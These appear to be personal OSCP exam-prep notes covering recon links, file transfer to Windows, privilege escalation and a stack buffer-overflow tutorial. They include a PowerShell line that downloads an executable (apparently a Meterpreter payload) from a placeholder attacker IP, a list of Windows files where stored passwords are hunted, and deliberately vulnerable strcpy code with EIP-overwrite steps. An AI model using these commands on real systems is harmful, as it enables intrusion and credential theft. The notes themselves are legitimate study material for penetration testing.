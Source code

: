 # TJ Null Path to Try Harder
TJNull presented at BSidesDC 2019.  I've been using his blog as a good reference point to start for things to review BEFORE signing up for PWK.  Some content I decided to put in their own `md` files.  Links can be found here: https://www.netsecfocus.com/oscp/2019/03/29/The_Journey_to_Try_Harder-_TJNulls_Preparation_Guide_for_PWK_OSCP.html
# Active Recon

## Service Enum - Pen Testing Cheat Sheet

https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
Local File Inclusion (LFI): https://highon.coffee/blog/lfi-cheat-sheet/
Linux Commands: https://highon.coffee/blog/linux-commands-cheat-sheet/ 
`systemd`/`systemctl` cheat sheet: https://highon.coffee/blog/systemd-cheat-sheet/
Reverse Shell Cheat Sheet: https://highon.coffee/blog/reverse-shell-cheat-sheet/

## Transferring Files to Your Account - Linux --> Windows
https://blog.ropnop.com/transferring-files-from-kali-to-windows/
- When on Windows (no `curl` or `wget`) use PS `WebClient` object: `(new-object System.Net.WebClient).DownloadFile('http://IP_ADDR/met888.exe','C:\Users\AdminUser\
Desktop\met888.exe')`

## Transferring Files to Your Account - Tools -
- `bitsadmin` - Windows command line tool to create download/upload jobs and monitor progress
#linkuphere
## Privileger Escalation
### Windows Guides - Fundamentals
http://www.fuzzysecurity.com/tutorials/16.html
Location to check for config files w/stored passwords:
Typically these are the directories that contain the configuration files (however it is a good idea to check the entire OS):
- c:\sysprep.inf
- c:\sysprep\sysprep.xml
- %WINDIR%\Panther\Unattend\Unattended.xml
- %WINDIR%\Panther\Unattended.xml

In addition to Groups.xml (stored in SYSVOL) several other policy preference files can have the optional "cPassword" attribute set:
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes

### Windows Priv Esc Guide
Commands to run to check for XAMPP, Apache, or PHP and check for config files:
`dir /s php.ini httpd.conf httpd-xampp.conf my.ini my.cnf`

## Buffer Overflows
### Corelan
### (Part I)[https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/]
- Most functions start with: `PUSH EBP` followed by `MOV EBP,ESP`

Source Code:
```
#include  

void do_something(char *Buffer)
{
     char MyVar[128];
     strcpy(MyVar,Buffer);
}

int main (int argc, char **argv)
{
     do_something(argv[1]);
}
```

Register
```
00401290  /$ 55             PUSH EBP
00401291  |. 89E5           MOV EBP,ESP
00401293  |. 81EC 98000000  SUB ESP,98
00401299  |. 8B45 08        MOV EAX,DWORD PTR SS:[EBP+8]             ; |
0040129C  |. 894424 04      MOV DWORD PTR SS:[ESP+4],EAX             ; |
004012A0  |. 8D85 78FFFFFF  LEA EAX,DWORD PTR SS:[EBP-88]            ; |
004012A6  |. 890424         MOV DWORD PTR SS:[ESP],EAX               ; |
004012A9  |. E8 72050000    CALL                 ; \strcpy
004012AE  |. C9             LEAVE
004012AF  \. C3             RETN
```
- `SUB ESP,98` - decreemnt ESP by a certain number of bytes (most likely > 128 bytes) - gives space for the MyVar variable
- `MOV` and `LEA` instructions basically setup parameters for `strcpy` function taking pointer where `argv[1]` sits and copying data from `MyVar` into it
- `strcpy()` does not `PUSH` instructions to put data on stack, it reads a byte and writes it to the stack, using an index (i.e. `ESP`, `ESP+1`, `ESP+2`)
    - So `ESP` still points to the beginning of the string
- Means if data in Buffer is > `0x98`, it will overwrite saved `EBP` and eventually `EIP`
- `ESP` still points to beginning of string, `strcpy()` completes as if nothing is wrong, then function kicks in.  Moving `ESP` back to where saved `EIP` was stored and issue a `RET`

- _Stack Based Overflow_/_Stack Buffer Overflow_ - When a buffer on the stack overflows
- _Stack Overflow_ - trying to write past the end of the stack frame

> A quick note before proceeding : On intel x86, the addresses are stored little-endian (so backwards).  The AAAA you are seeing is in fact AAAA :-)  (or, if you have sent ABCD in your buffer, EIP would point at 44434241 (DCBA)

- `msf` has a tool `/pattern_create.rb` to generate a string that creates unique patterns, and `pattern_offset.rb` (`/usr/share/metasploit-framework/tools/exploit/`)
- Scenario
	- Buffer - All `A`s
	- EBP - is 4 Bytes, and all `A`s as well
	- EIP - is set to `B`s
	- ESPs - All `C`s - to start
		- modify and add "shellcode" - aka pattern to identify where to point/what to run
		- analyze and determine there is a delay (aka ESP starts at 5th), which warrants `preshellcode`
		- then the goal is to build the real shellcode, & tell EIP to jump to the address of the start of the shellcode
			- overwrite EIP with `0x000ff730` aka address of `d esp` in the screenshots
			- *turns out you cannot just overwrite EIP with a direct memory adress* . Not a good idea because it isn't reliable and also contains a null byte (`0x00`)
			- So goal changes to make the application jump to own provided code
				- Reference a register (or offset to a register), such as ESP, and find function that will jump to that register
		- `ffe4` = opcode for `jmp esp`
		- Searching for opcodes
			- Tool DLL specific (walkthrough example): `s 0b1000 1 01fdd000 ff e4`
			- Windows DLLs: `s 70000000 l fffffff ff e4`
			- `findjmp`
			- [`metasploit` opcode DB](https://web.archive.org/web/20080704110517/http://www.metasploit.org/users/opcode/msfopcode.cgi)
			- `memdump`
			- `pvefindaddr`
		- `jmp esp` address from list must not have null bytes (since shellcode needs to go in `ESP`, and null bytes act as a string terminator - in most cases)

Continue at: `Get shellcode and finalize the exploit`

# Web App Attacks

## [Burp Suite Webinar](https://www.youtube.com/watch?v=h2duGBZLEek&t=28s)
- Github for Enumeration lists: `danielmiessler/Seclists`

# Random Links
Cuz there's so much info in all these sources, I don't want to have 500 tabs of ToDos

This is a [Go Chapter](#random-links)

## [BugCrowd U - Burpsuite](#web-app-attacks)

[link]()

# [Testlink](#Web-App-Attacks)
- XSS Walkthrough: https://www.youtube.com/watch?v=gkMl1suyj3M
- XSS Game - Google Game to work on BurpSuite Skills: http://xss-game.appspot.com/level1
- BugCrowd University Github: Other Links: https://github.com/bugcrowd/bugcrowd_university 


Here is my link [test](#random-links)